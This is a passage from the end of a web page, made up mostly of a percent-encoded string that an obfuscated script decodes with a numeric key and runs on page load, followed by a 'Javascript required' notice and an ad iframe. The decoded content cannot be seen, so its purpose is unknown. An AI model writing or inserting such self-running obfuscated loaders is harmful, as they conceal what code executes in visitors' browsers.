e%23%46%40%7b%71%74%76%6b%6e%6f%7b%23%2c%62%77%73%75%3a%2d%36%32%33%37%27%47%63%21%63%77%6d%72%7e%41%20%72%6c%7a%77%20%14%0a%23%2c%21%2d%24%22%21%27%27%23%22%21%20%23%2c%21%2d%24%22%21%6f%75%6e%6c%44%22%34%2e%47%51%73%75%77%74%4f%7e%60%45%37%62%4a%45%3a%74%44%14%0d%27%23%22%21%20%23%2c%21%49%33%6e%68%79%41%16%08%21%20%23%2c%45%3a%6a%75%76%7b%6a%71%44%14%0a%16%06%21%2d%24%22%45%74%64%71%6b%71%7c%23%70%78%7d%69%47%23%7b%6a%7b%7e%36%6a%62%72%60%7e%67%70%68%77%7b%21%44%14%0a%23%2c%21%2d%24%22%21%27%2b%2b%2d%22%54%6a%7a%6a%4e%73%72%78%28%2e%35%61%75%69%60%67%29%63%79%74%62%7b%6e%74%74%21%28%2a%2c%7a%18%0e%22%21%27%27%23%22%21%20%23%2c%21%2d%7a%63%73%27%2b%7f%6f%74%70%23%49%21%21%2c%20%45%6e%71%73%7f%7d%46%21%25%3a%18%0e%22%21%27%27%23%22%21%20%23%2c%21%2d%28%2a%23%65%70%6f%7b%23%29%35%6d%71%7d%69%74%6d%2f%2b%7f%6f%74%70%2a%37%14%07%24%22%21%27%27%23%22%21%20%23%2c%21%21%78%6f%74%77%31%7d%63%75%28%2f%24%2e%2e%71%7b%55%6e%71%68%2d%28%36%7f%61%79%71%2c%2b%28%31%74%6e%76%6c%63%7f%24%28%36%11%08%21%27%27%23%22%21%20%23%2c%21%2d%24%6e%76%64%7a%76%6f%77%7c%35%61%79%60%67%41%76%72%72%62%74%6d%28%21%6f%76%7d%7d%20%28%3c%12%09%22%21%20%23%2c%21%2d%24%22%21%27%27%62%76%6c%72%7f%24%23%59%6d%74%6a%27%64%74%72%68%6d%6f%2d%23%24%3f%17%0b%27%27%23%22%21%20%23%2c%21%2d%24%22%2d%7b%6a%76%72%37%72%6e%79%76%73%69%2a%28%3c%12%09%22%21%20%23%2c%21%2d%24%87%28%3c%12%09%22%21%20%23%48%36%7e%67%70%68%77%7b%45%17%0b%15%09%19%0b%2d%24%22%21%43%74%60%70%68%70%7f%2c%60%7e%7d%74%62%42%25%62%71%78%76%60%2e%21%71%7d%72%6c%42%25%7f%6f%79%7c%34%66%60%73%65%71%62%75%6e%73%7e%23%20%70%7e%62%48%26%6a%7d%7b%77%70%38%36%37%7f%7b%76%7b%77%6a%7c%65%31%6c%6b%7d%68%7e%6e%37%64%73%35%63%6a%7b%62%35%72%7c%71%61%60%78%33%77%6c%71%7a%35%68%72%22%45%48%36%7e%67%70%68%77%7b%45%17%0b%44%34%6e%76%61%7d%44%14%0d%12%09%46%36%68%7f%79%75%4b17316364%33%37%36%35%34%37%38' + unescape('%27%29%29%3b'));
// -->
</script>
<noscript><i>Javascript required</i></noscript>
<center><br/><br/><iframe data-aa="1507941" src="//ad.a-ads.com/1507941?size=336x280" scrolling="no" style="width:336px; height:280px; border:0px; padding:0; overflow:hidden" allowtransparency="true"></iframe></Center>
</html>

